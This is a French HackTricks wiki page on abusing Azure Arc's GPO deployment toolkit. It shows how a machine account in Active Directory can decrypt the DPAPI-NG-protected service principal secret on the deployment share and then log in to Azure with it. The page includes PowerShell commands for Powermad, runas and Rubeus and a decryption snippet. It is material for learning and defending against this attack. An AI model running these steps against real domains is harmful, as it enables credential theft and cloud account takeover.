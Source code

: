 # Az - Arc script de déploiement GPO vulnérable

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

### Identification des problèmes

Azure Arc permet l'intégration de nouveaux serveurs internes (serveurs de domaine joints) dans Azure Arc en utilisant la méthode de l'objet de stratégie de groupe. Pour faciliter cela, Microsoft fournit un kit d'outils de déploiement nécessaire pour initier la procédure d'intégration. Dans le fichier ArcEnableServerGroupPolicy.zip, les scripts suivants peuvent être trouvés : DeployGPO.ps1, EnableAzureArc.ps1 et AzureArcDeployment.psm1.

Lors de son exécution, le script DeployGPO.ps1 effectue les actions suivantes :

1. Crée le GPO d'intégration des serveurs Azure Arc dans le domaine local.
2. Copie le script d'intégration EnableAzureArc.ps1 dans le partage réseau désigné créé pour le processus d'intégration, qui contient également le package d'installation Windows.

Lors de l'exécution de ce script, les administrateurs système doivent fournir deux paramètres principaux : **ServicePrincipalId** et **ServicePrincipalClientSecret**. De plus, il nécessite d'autres paramètres tels que le domaine, le FQDN du serveur hébergeant le partage et le nom du partage. D'autres détails tels que l'ID de locataire, le groupe de ressources et d'autres informations nécessaires doivent également être fournis au script.

Un secret chiffré est généré dans le répertoire AzureArcDeploy sur le partage spécifié en utilisant le chiffrement DPAPI-NG. Le secret chiffré est stocké dans un fichier nommé encryptedServicePrincipalSecret. Des preuves de cela peuvent être trouvées dans le script DeployGPO.ps1, où le chiffrement est effectué en appelant ProtectBase64 avec $descriptor et $ServicePrincipalSecret comme entrées. Le descripteur se compose des SID des groupes Domain Computer et Domain Controller, garantissant que le ServicePrincipalSecret ne peut être déchiffré que par les groupes de sécurité Domain Controllers et Domain Computers, comme noté dans les commentaires du script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Nous avons les conditions suivantes :

1. Nous avons réussi à pénétrer le réseau interne.
2. Nous avons la capacité de créer ou de prendre le contrôle d'un compte d'ordinateur au sein d'Active Directory.
3. Nous avons découvert un partage réseau contenant le répertoire AzureArcDeploy.

Il existe plusieurs méthodes pour obtenir un compte machine dans un environnement AD. L'une des plus courantes consiste à exploiter le quota de compte machine. Une autre méthode implique de compromettre un compte machine via des ACL vulnérables ou diverses autres mauvaises configurations.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Une fois qu'un compte machine est obtenu, il est possible de s'authentifier en utilisant ce compte. Nous pouvons soit utiliser la commande runas.exe avec le drapeau netonly, soit utiliser pass-the-ticket avec Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
En ayant le TGT pour notre compte d'ordinateur stocké en mémoire, nous pouvons utiliser le script suivant pour déchiffrer le secret du principal de service.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativement, nous pouvons utiliser [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

À ce stade, nous pouvons rassembler les informations restantes nécessaires pour se connecter à Azure à partir du fichier ArcInfo.json, qui est stocké sur le même partage réseau que le fichier encryptedServicePrincipalSecret. Ce fichier contient des détails tels que : TenantId, servicePrincipalClientId, ResourceGroup, et plus encore. Avec ces informations, nous pouvons utiliser Azure CLI pour nous authentifier en tant que service principal compromis.

## Références

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

